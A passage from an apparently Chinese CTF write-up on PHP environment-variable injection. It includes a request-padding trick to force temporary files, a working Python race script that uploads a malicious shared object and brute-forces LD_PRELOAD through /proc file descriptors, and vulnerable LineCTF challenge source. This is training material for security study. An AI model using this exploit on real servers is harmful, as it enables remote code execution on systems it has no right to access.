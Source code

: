 这个c代码后，可以定义一个函数加入很多无用代码，增加请求body的长度，更容易产生临时文件

```
a=0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0;
```

然后就是竞争的脚本了

```python
import requests
import _thread

f=open("exp.so",'rb')
data=f.read()
url=""

def upload():
    print("start upload")
    while True:
        requests.get(url+"index.php",data=data)

def preload(fd):
    while True:
        print("start ld_preload")
        for pid in range(10,20):
            file = f'/proc/{pid}/fd/{fd}'
            # print(url+f"index.php?env=LD_PRELOAD={file}")
            resp = requests.get(url+f"index.php?env=LD_PRELOAD={file}")
            # print(resp.text)
            if 'uid' in resp.text:
                print("finished")
                exit()

try:
    _thread.start_new_thread(upload, ())
    for fd in range(1, 20):
        _thread.start_new_thread(preload,(fd,))
except:
    print("error")

while True:
    pass
```

附上一个LineCTF的题目

也是环境变量注入

源码：

```php
<?php
    error_reporting(0);

    function bye($s, $ptn){
        if(preg_match($ptn, $s)){
            return false;
        }
        return true;
    }

    foreach($_GET["env"] as $k=>$v){
        if(bye($k, "/=/i") && bye($v, "/[a-zA-Z]/i")) {
            putenv("{$k}={$v}");
        }
    }
    system("bash -c 'imdude'");
    
```
